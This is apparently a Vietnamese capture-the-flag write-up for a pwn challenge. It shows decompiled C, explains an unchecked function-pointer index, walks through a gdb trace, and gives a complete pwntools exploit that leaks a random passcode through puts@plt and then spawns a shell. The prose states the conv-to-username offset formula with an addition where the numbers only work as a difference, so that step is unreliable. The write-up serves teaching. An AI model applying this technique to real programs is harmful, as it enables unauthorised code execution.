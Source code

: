 
```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  __int64 choice; // [rsp+0h] [rbp-10h]
  __int64 ag; // [rsp+8h] [rbp-8h]

  setup(argc, argv, envp);
  printf("[*] NickName> ");
  if ( read(0, &username, 0x40uLL) == -1 )
  {
    perror("READ ERROR");
    exit(-1);
  }
  while ( 1 )
  {
    menu();
    choice = read_int();
    printf("[*] Guess>");
    ag = read_int();
    ((void (__fastcall *)(__int64))conv[choice - 1])(ag);
  }
}
```
```c
__int64 read_int()
{
  __int64 buf[6]; // [rsp+0h] [rbp-30h] BYREF

  buf[5] = __readfsqword(0x28u);
  memset(buf, 0, 32);
  printf("> ");
  if ( read(0, buf, 0x20uLL) == -1 )
  {
    perror("READ ERROR");
    exit(-1);
  }
  return atol((const char *)buf);
}
```
```c
unsigned __int64 __fastcall hard(__int64 a1)
{
  int i; // [rsp+14h] [rbp-2Ch]
  char path[8]; // [rsp+2Fh] [rbp-11h] BYREF
  char v4; // [rsp+37h] [rbp-9h]
  unsigned __int64 v5; // [rsp+38h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  strcpy(path, "<qz}<`{");
  v4 = 0;
  for ( i = 0; i <= 6; ++i )
    path[i] ^= 0x13u;
  if ( a1 == passcode )
  {
    puts("[+] WINNNN!");
    execve(path, 0LL, 0LL);
  }
  else
  {
    puts("[-] YOU ARE NOT WORTHY FOR A SHELL!");
  }
  change_passcode();
  return v5 - __readfsqword(0x28u);
}
```

Về cơ bản thì chương trình sẽ cho phép ta nhập `tên` vào biến `username` và tiếp đến sẽ cho ta những `options` để chọn. Để ý ở hàm `main` ta thấy:
```c
  while ( 1 )
  {
    menu();
    choice = read_int();
    printf("[*] Guess>");
    ag = read_int();
    ((void (__fastcall *)(__int64))conv[choice - 1])(ag);
  }
}
```
Thì ở đây nó dùng `((void (__fastcall *)(__int64))conv[choice - 1])(ag);` cho phép tạo một con trỏ hàm cho phép nhận duy nhất một tham số với `conv[choice - 1]` là mảng lưu trữ 2 hàm `easy` và `hard`. Và khi ta nhập option `2` thì nó sẽ chuyển sang hàm `hard` cho ta. Hàm này sẽ cho ta tạo `shell` nếu ta đoán đúng `passcode` và `passcode` được gán giá trị random nhờ hàm `change_passcode`:
```c
int change_passcode()
{
  int fd; // [rsp+Ch] [rbp-4h]

  fd = open("/dev/random", 0);
  if ( fd < 0 )
  {
    perror("OPEN ERROR");
    exit(-1);
  }
  if ( read(fd, &passcode, 8uLL) == -1 )
  {
    perror("READ ERROR");
    exit(-1);
  }
  puts("[*] PASSCODE CHANGED!");
  return close(fd);
}
```
Hàm sẽ lấy giá trị ngẫu nhiên từ `/dev/random` và gán nó vào `&passcode`. Đến đây mình khá bí vì không biết nên làm gì tiếp theo, nên là mình đã debug file này một hồi khá lâu thì nhận ra rằng `((void (__fastcall *)(__int64))conv[choice - 1])(ag)` trước khi nó gọi một hàm nào đó nó sẽ setup `conv[choice - 1]` như thế này:
```sh
   0x401609 <main+148>    mov    qword ptr [rbp - 8], rax        [0x7fffffffdbc8] <= 0x2b67
   0x40160d <main+152>    mov    rax, qword ptr [rbp - 0x10]     RAX, [0x7fffffffdbc0] => 2
   0x401611 <main+156>    sub    rax, 1                          RAX => 1 (2 - 1)
 ► 0x401615 <main+160>    lea    rdx, [rax*8]                    RDX => 8
   0x40161d <main+168>    lea    rax, [rip + 0x29ec]             RAX => 0x404010 (conv) —▸ 0x4012e1 (easy) ◂— push rbp
   0x401624 <main+175>    mov    rdx, qword ptr [rdx + rax]      RDX, [conv+8] => 0x40132c (hard) ◂— push rbp
   0x401628 <main+179>    mov    rax, qword ptr [rbp - 8]        RAX, [0x7fffffffdbc8] => 0x2b67
   0x40162c <main+183>    mov    rdi, rax                        RDI => 0x2b67
   0x40162f <main+186>    call   rdx                         <hard>
```

Thì mình đã nhập `choice` là `2`, như ta có thể thấy nó lấy kết quả đó trừ 1 và lưu vào `rax` và rồi lấy kết quả đó tính toán cho `rdx` (ở lần thử này `rdx = 8`). Tiếp đến gán địa chỉ của `conv` cho rax và cuối cùng là gán địa chỉ của `conv+offset` cho `rdx` rồi thực thi nó. Điều này làm cho mình nảy ra ý tưởng có thể tận dùng cái này để leak ra `passcode`. Và ý tưởng của mình là:

- Ta tận dụng put@plt nhập vào `username` 
- Ở lần nhập `ag` mình sẽ nhập vào địa chỉ của `passcode`

Nhưng điều đầu tiên chúng ta cần làm là tính toán giá trị từ `conv` đến `username` trong memory để khi nó thực thi nó sẽ thực thi `got@plt` ta để ở biến `username`. `username` có địa chỉ `0x404080` và `conv` có địa chỉ `0x404010`. Offset từ `conv` -> `username` sẽ là `[(0x404080 + 0x404010) // 8] + 1 = 15`. Như vậy ta có thể leak được `passcode` và dùng nó để tạo shell

Full exploit:

```py
#!/usr/bin/python3
from pwncus import *

# context.log_level = 'debug'
exe = context.binary = ELF('./chall', checksec=False)


def GDB(): gdb.attach(p, gdbscript='''


c
''') if not args.REMOTE else None

p = remote('', ) if args.REMOTE else process(argv=[exe.path], aslr=False)
set_p(p)
if args.GDB: GDB(); input()

# ===========================================================
#                          EXPLOIT 
# ===========================================================

passcode_address = 0x404060
puts_plt = exe.plt.puts

sa(b'[*] NickName> ', p64(puts_plt))
sla(b'> ', b'15')
sa(b'>', str(passcode_address).encode())

ru(b'> ')
# print(ru(b'\n'))
passcode = u64(ru(b'\n').strip())
print(f'Passcode leak: {passcode}')

sla(b'> ', b'2')
sa(b'>', str(passcode).encode())
interactive()
```
